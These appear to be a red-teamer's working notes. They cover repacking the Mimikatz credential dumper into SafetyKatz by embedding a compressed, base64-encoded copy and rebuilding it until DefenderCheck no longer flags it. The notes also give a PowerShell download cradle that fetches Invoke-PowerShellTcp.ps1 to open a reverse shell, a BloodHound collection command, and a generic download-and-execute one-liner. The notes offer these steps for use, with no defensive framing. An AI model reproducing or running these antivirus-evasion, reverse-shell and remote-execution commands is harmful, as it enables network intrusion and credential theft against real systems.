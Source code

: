 
Run the Out-CompressedDll.ps1 PowerShell script on Mimikatz binary and save the output to a file

Out-CompressedDll.ps1

`https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1`

~~~
Out-CompressedDll <Path to mimikatz.exe> > 	outputfilename.txt
~~~

- Copy the value of the variable **$EncodedCompressedFile** from the output file above and replace the value of **compressedMimikatzString** variable in the **Constants.cs** file of SafetyKatz.
    
- Copy the byte size from the output file and replace it in **Program.cs** file on the line 111 & 116.
- Build and recheck the binary with _DefenderCheck_

![[Pasted image 20241121223521.png]]

- Download the latest release of “mimikatz_trunk.zip” file.
- Convert the file to base64 value
Modify the **Program.cs** file.

Added a new variable that contains the base64 value of **mimikatz_trunk.zip** file. – Comment the code that downloads or accepts the mimikatz file as an argument. – Convert the base64 string to bytes and pass it to **zipStream** variable







~~~
powershell iex (iwr -UseBasicParsing http://ip/Invoke-PowerShellTcp.ps1);power -Reverse -IPAddress ip -Port 433
~~~


Command for Bloodhound

~~~
Invoke-BloodHound -Collection All -Verbose
~~~

 Download execute cradle 

~~~
iex (New-Object Net.Webclient).DownloadString('htttps://webserver/payload.ps1')
~~~



